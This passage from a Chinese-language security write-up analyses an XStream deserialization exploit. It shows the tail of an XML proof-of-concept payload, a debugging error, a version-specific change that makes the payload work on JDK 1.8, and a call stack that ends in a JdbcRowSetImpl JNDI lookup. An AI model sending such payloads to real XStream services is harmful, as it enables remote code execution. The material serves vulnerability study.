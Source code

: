 ```bash
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

官方的 POC 和这个不太一致，使用后会报如下错误

```bash
---- Debugging information ----
message             : No such field com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault._overrideDefaultParser
field               : _overrideDefaultParser
class               : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
required-type       : com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault
converter-type      : com.thoughtworks.xstream.converters.reflection.ReflectionConverter
path                : /sorted-set/javax.naming.ldap.Rdn$RdnEntry/value/m_DTMXRTreeFrag/m_dtm/m_mgrDefault/_overrideDefaultParser
```

这里表示 com.sun.org.apache.xml.internal.dtm.ref.DTMManagerDefault 类中没有\_overrideDefaultParser 这个字段，于是查阅了 JDK1.8\_66 外部包的这个类，确实没有找到该字段，于是就删除了官方 POC 中下面这句就得到了以上的 POC

```bash
<__overrideDefaultParser>false</__overrideDefaultParser>
```

这里猜测应该是跟 JDK 版本有关，经查阅资料，这个属性在 JDK 低版本中是没有的，相关的博客也提到，可以更换成下面这句

```bash
<__useServicesMechanism>false</__useServicesMechanism>
```

**分析**  
函数调用栈

```bash
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
connect:624, JdbcRowSetImpl (com.sun.rowset)
setAutoCommit:4067, JdbcRowSetImpl (com.sun.rowset)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
parseSome:373, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
deliverMoreNodes:312, IncrementalSAXSource_Xerces (com.sun.org.apache.xml.internal.dtm.ref)
nextNode:814, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
_firstch:535, DTMDefaultBase (com.sun.org.apache.xml.internal.dtm.ref)
getStringValue:1294, SAX2DTM (com.sun.org.apache.xml.internal.dtm.ref.sax2dtm)
str:207, XRTreeFrag (com.sun.org.apache.xpath.internal.objects)
toString:314, XObject (com.sun.org.apache.xpath.internal.objects)
```